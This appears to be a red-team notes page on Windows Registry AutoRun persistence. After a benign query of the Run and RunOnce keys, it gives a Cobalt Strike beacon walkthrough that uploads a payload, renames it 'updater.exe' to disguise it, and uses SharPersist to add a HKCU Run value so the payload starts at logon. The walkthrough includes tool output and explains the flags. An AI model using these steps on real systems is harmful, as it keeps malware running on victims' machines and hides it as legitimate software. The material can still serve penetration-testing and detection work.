 # Registry AutoRun

## Introduction - AutoRun Registry

Autorun and run keys are registry entries in Windows that allow programs to run automatically when a device is connected or a user logs in

Since we are only interested in the machine startup keys, these are the default keys we want to query:

* HKEY\_LOCAL\_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
* HKEY\_LOCAL\_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce



## Query Registry

### Powershell

```powershell
reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run"
```



## SharPersist & Cobalt Strike

AutoRun values in HKCU and HKLM allow applications to start on boot. You commonly see these to start native and 3rd party applications such as software updaters, download assistants, driver utilities and so on.

```powershell
beacon> cd C:\ProgramData
beacon> upload C:\Payloads\http_x64.exe
beacon> mv http_x64.exe updater.exe
beacon> execute-assembly C:\Tools\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add

[*] INFO: Adding registry persistence
[*] INFO: Command: C:\ProgramData\Updater.exe
[*] INFO: Command Args: /q /n
[*] INFO: Registry Key: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
[*] INFO: Registry Value: Updater
[*] INFO: Option: 
[+] SUCCESS: Registry persistence added
```

Where:

* `-k` is the registry key to modify.
* `-v` is the name of the registry key to create.

\
